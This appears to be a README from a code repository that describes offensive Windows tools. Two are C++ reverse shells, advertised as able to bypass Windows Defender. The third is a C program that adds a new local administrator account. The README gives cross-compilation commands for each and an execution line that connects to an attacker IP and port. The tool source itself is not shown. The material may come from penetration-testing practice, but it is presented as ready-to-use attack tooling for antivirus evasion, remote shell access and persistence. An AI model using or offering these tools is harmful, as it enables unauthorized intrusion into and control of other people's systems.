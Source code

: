 ## revshell.cpp
Simple C++ reverse shell, can be used to bypass Windows Defender if we want to get a simple reverse shell from the target.

*Note: The IP and PORT need to be specified statically in the file before compilation*

- Compile in linux with: `x86_64-w64-mingw32-g++ -o rev.exe rev.cpp -lws2_32 -static-libgcc -static-libstdc++`
- Execute: `.\rev.exe`

## revshell2.cpp
Simple C++ reverse shell, can be used to bypass Windows Defender if we want to get a simple reverse shell from the target.

*Note: The executable takes IP and PORT as arguments*

- Compile in linux with: `x86_64-w64-mingw32-g++ -o rev.exe rev.cpp -lws2_32 -static-libgcc -static-libstdc++`
- Execute: `rev.exe 192.168.45.195 9001`

## newadmin.c
Will create new local admin.

- Create a 32-bit EXE file: `i686-w64-mingw32-gcc -oadduser32.exe adduser.c -lnetapi32`
- Create a 64-bit EXE file: `x86_64-w64-mingw32-gcc -oadduser64.exe adduser.c -lnetapi32`
